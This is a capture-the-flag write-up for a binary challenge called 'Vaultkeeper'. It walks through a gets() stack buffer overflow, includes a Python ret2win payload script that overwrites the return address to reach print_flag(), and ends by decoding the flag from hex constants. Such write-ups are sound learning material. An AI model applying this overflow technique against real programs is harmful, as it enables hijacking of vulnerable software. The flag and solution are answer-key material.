






Vaultkeeper
Description¶
The vaulkeeper has learned from Bufferland's mistakes. No longer does he leave the flag out in the pen. He mocks your tools, your reliance on strings, and your lazy static analysis. But the flaw still lies within - hidden, yes, but not unreachable. To reveal the secret now, you must force the keeper to construct it.
Hint¶
"The flag is real, but not revealed - until you walk the path unwritten." You won't see it, but you can still reach it. Try harder
Solution¶
This challenge appeared to be a follow-up to the previous Bufferland task, so I expected another binary exploitation scenario.
I started by making the binary executable and running it
chmod +x glory
./glory

The program greeted me, asked for input, and then ended with “The vault remains sealed.” Trying simple input didn’t reveal anything.
Next, I ran strings and explored the binary in Cutter, but found nothing useful. I then turned to Ghidra for a deeper look
Before I even continue to get the flag, I analyzed the codes in the binary and made a notice
There are 4 functions here that we need to analyze : intro, main, print_flag and vulnerable

Code Summary¶
-
intro()prints the welcome messages. -
vulnerable()reads user input but does not print the flag. -
main()callsintro(), thenvulnerable(), and finally prints "The vault remains sealed." -
The flag is printed only by
print_flag(), which is never called directly inmain().
What this means is that the program expects an input, but no input alone will cause the flag to be printed.
print_flag function :

vulnerable function:

To get the flag output, you need to exploit the buffer overflow vulnerability in vulnerable() (because it uses gets() unsafely) to overwrite the return address and redirect execution to the print_flag() function.
This is a classic binary exploitation scenario where you provide a crafted input (payload) that overflows the buffer and hijacks control flow.
Exploitation¶
Step 1: Determine the Offset to the Return Address¶
The buffer size is 64 bytes. On a typical x86_64 system, the return address is located after the buffer and the saved frame pointer (RBP). Therefore, the offset to the return address is:
Step 2: Find the Address of print_flag()¶
Use a tool like objdump, nm, or Ghidra to find the memory address of the print_flag() function. For example:
nm -C ./glory | grep print_flag
Step 3: Craft the Payload¶
Create a payload that overflows the buffer and overwrites the return address with the address of print_flag(). Here's a Python script to generate the payload:
from struct import pack
# Define the sizes and addresses
buffer_size = 64
saved_rbp_size = 8
ret_addr = 0x401199 # Place the actual print_flag address
# Craft the payload
payload = b"A" * buffer_size # Fill the buffer with 'A's
payload += b"B" * saved_rbp_size # Overwrite the saved RBP with 'B's
payload += pack("<Q", ret_addr) # Overwrite the return address with print_flag address (little endian)
print(payload)
Step 4: Run the Exploit¶
Save the payload to a file or pipe it into the program. For example:
python exploit.py > payload
./glory < payload
Or directly pipe the output:
python exploit.py | ./glory

It however did not work because the exploit had an issue. Pending creation of the exploit, I knew that the flag is stored in the print_flag function, but it is encoded as a series of 64-bit hexadecimal values assigned to local variables, then printed as a flag as a string The values represent parts of the flag in memory. To find the flag, you need to convert these hex values into ASCII characters and concatenate them.
NB : You need to convert the hexadecimal values into little-endian byte order because that is how the data is stored in memory of the target machine (which is almost certainly a little-endian architecture like x86 or x86_64)
I thus created a script which will decode the flag from the hexadecimal values you provided, following the little-endian byte order, and prints out the full flag.
def decode_flag():
# Hex values from the print_flag function
hex_values = [
0x5f306e7b67616c66,
0x77306c6672337630,
0x72306c675f306e5f,
0x7d79
]
flag_bytes = b""
for val in hex_values:
# Determine how many bytes to extract (8 bytes for full 64-bit values, less for the last)
length = 8 if val > 0xFFFF else 2
# Convert the integer to bytes in little-endian order
flag_bytes += val.to_bytes(length, byteorder='little')
# Decode the concatenated bytes to ASCII string
flag = flag_bytes.decode('ascii')
print("[+] Decoded flag:", flag)
if __name__ == "__main__":
decode_flag()

Flag : flag{n0_0v3rfl0w_n0_gl0ry}
How the above python code works:¶
-
Each 64-bit integer is converted to bytes in little-endian byte order.
-
The last value is shorter (only 2 bytes).
-
All bytes are concatenated and decoded to ASCII.
-
The script prints the decoded flag.